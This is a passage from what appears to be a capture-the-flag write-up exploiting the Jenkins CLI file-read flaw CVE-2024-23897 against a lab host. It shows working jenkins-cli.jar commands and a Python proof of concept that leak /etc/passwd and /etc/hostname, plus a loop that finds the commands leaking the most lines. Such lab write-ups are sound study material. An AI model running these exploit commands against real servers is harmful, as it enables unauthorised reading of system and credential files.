 Those command run as well:

```
oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' who-am-i
Authenticated as: anonymous
Authorities:
  anonymous

```

From the advisory, I can try putting in a file reference:

![image-20240209171545905](https://0xdf.gitlab.io/img/image-20240209171545905.png)

It’s trying to load `/etc/passwd` as arguments for the help command. The first line is the command ( `root`), and the next is an unexpected argument. That’s partial file read for sure. For one line files, this is enough (adding an extra arg, in this case “a”, makes the output much shorter):

```
oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/etc/hostname' a

ERROR: Too many arguments: a
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: 0f52c222a4cc)

```

The hostname is “0f52c222a4cc”.

#### Python POCs

There are Python POCs out there on GitHub that will do a similar thing. They don’t really add anything over the JAR file, so I prefer that method. They do work to make similar output:

```
oxdf@hacky$ python CVE-2024-23897/poc.py  http://10.10.11.10:8080/ /etc/passwd
REQ: b'\x00\x00\x00\x06\x00\x00\x04help\x00\x00\x00\x0e\x00\x00\x0c@/etc/passwd\x00\x00\x00\x05\x02\x00\x03GBK\x00\x00\x00\x07\x01\x00\x05zh_CN\x00\x00\x00\x00\x03'

RESPONSE: b'\x00\x00\x00\x00\x01\x08\n\x00\x00\x00K\x08ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n\x00\x00\x00\x1e\x08java -jar jenkins-cli.jar help\x00\x00\x00\n\x08 [COMMAND]\x00\x00\x00\x01\x08\n\x00\x00\x00N\x08Lists all the available commands or a detailed description of single command.\n\x00\x00\x00J\x08 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)\n\x00\x00\x00\x04\x04\x00\x00\x00\x02'

```

#### Getting More Lines

In [this video](https://www.youtube.com/watch?v=toPJhfy-wvw), I explore the vulnerability, walk through exploitation with both the JAR and the Python POC, and show the path to finding a method to leak more lines:

By the end of the video, I’ve got this output:

```
oxdf@hacky$ cat commands | while read command; do echo "echo -n \"$command: \"; java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' $command '@/etc/passwd' 2>&1 | grep -oP ':\d+:\d+:' | sort -u | wc -l"; done > ipp.sh
oxdf@hacky$ bash ipp.sh
add-job-to-view: 1
build: 1
cancel-quiet-down: 1
clear-queue: 1
connect-node: 19
console: 1
copy-job: 1
create-credentials-by-xml: 1
```